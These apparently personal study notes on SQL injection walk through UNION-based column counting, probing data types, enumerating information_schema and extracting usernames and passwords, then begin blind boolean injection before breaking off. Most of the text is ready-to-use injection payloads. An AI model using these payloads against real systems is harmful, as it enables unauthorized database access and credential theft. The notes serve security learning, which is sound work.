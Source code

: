 # Union attacks : 
General query : `SELECT a, b FROM table1 UNION SELECT c, d FROM table2`

How to determine the number of columns required ?
we use order by statment : 

	' order by 1 --, 
	' order by 2 --, 
	' order by 3 --, ...etc

untill getting an error.

or
	' UNION SELECT NULL--
	' UNION SELECT NULL,NULL--
	' UNION SELECT NULL,NULL,NULL--, -etc.

for oracle, specific syntax `' UNION SELECT NULL FROM DUAL--`

Finding columns with a useful data type
we use the followinf payload when we know the number of columns : 

	' UNION SELECT 'a',NULL,NULL,NULL--
	' UNION SELECT NULL,'a',NULL,NULL--
	' UNION SELECT NULL,NULL,'a',NULL--
	' UNION SELECT NULL,NULL,NULL,'a'--

or 

	- UNION SELECT 1,2,3,4-- 

to retreive data, we can use  

	' UNION SELECT username, password FROM users--

another example when columns are not even 

	SELECT * from products where product_id = '1' UNION SELECT username, 2 from passwords
	UNION SELECT username, 2, 3, 4 from passwords-- '


Retreiving multiple values within the same column we can use contact depending on the sql syntax

	' UNION SELECT username || '~' || password FROM users--

we can query information about the sql such as : 

	' UNION Database type	Query
	' UNION Microsoft, MySQL	SELECT @@version
	' UNION Oracle	SELECT * FROM v$version
	' UNION PostgreSQL	SELECT version()

Listing the contents of the database
Most database types (except Oracle) have a set of views called the information schema. This provides information about the database.
example : 

	SELECT * FROM information_schema.tables
	SELECT * FROM information_schema.columns WHERE table_name = 'Users'
	SELECT * FROM my_database.users;
	

Notes : First we have to know the database name  database 	

	SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;  // to enumrate databases;

then see the tables within the db

	select TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- - 
	
	// !!!!! reminder number of columns don't make the mistake!!!!!!

the dump the columns 

	select COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS where table_name='users_xemvgh'

and then Get the data you need : 

	select username_ecephv,password_akjxku from users_xemvgh where username_ecephv = 'administrator' --

# Blind SQL Injection :
blind sql injection, is when we have an injection without the visual output, the vuln occurs at the backend 

we start wy trigerring a false boolean logic and see if there is any change the page for example :

	…xyz' AND '1'='1 // here wothing will change
	…xyz' AND '1'='2 // here normaly we won't see welcome back for example.

first we start by knowing the length of the password for example : 

	TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a
	
	xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a